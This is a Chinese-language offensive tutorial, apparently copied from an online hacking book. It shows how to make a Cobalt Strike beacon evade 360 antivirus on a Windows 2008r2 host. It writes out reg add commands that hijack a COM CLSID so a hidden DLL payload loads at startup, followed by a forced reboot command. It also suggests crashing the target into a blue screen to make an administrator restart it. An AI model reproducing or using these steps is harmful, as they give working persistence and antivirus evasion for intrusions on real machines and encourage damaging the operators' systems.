


# Cobalt Strike beacon 免杀上线 [ com 劫持 ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/28.html](http://book.iwonder.run/Tools/Cobalt Strike/28.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,既然是劫持 com,首先肯定得先有个 dll 才行,因为目标是 64 位系统,所以,我们此处在创建好监听器以后,直接生成一个 64 位的 dll payload 即可,具体如下



> 第二步,将 dll payload 丢到目标机器的任意隐蔽[务必要尽可能隐蔽]目录下,并创建相应劫持项,指明 dll payload 绝对路径

```
# reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InProcServer32 /v "" /t REG_SZ /d "C:\Windows\Temp\info.dll" /f
# reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f
# shutdown /r /t 0 
```


> 第三步, 等待目标重启系统加载劫持项时便会触发执行我们的 dll payload,随后便会看到 beacon shell 被弹会,至于实战中如何尽可能快的让目标管理员去重启系统,比如,你可以可以试着想办法把它系统搞蓝屏



> 如下很明显,此时的 360 仍无任何反应,因为 CobaltStrike 3.8 生成的 dll payload,默认就是直接免杀 360 的,至于 3.8 之后的版本就更不用说了,免杀效果肯定只会更好,此处由于各种各样的原因,兵没有拿最新版的 CobaltStrike 3.13 给大家做演示,其实,说白点,仅仅作为一个使用者来讲,它们在实际使用上的差别并不是特别大,新版本中无非就是新增了一些功能和特性,功能使用非常简单那,特性又都是体现在内部的,外表也看不太出来,所以在学习期间,大可不必过于纠结现在用的是什么版本,先起码能保证自己灵活用起来再说,以后再去考虑更多别的事情,也为时不晚


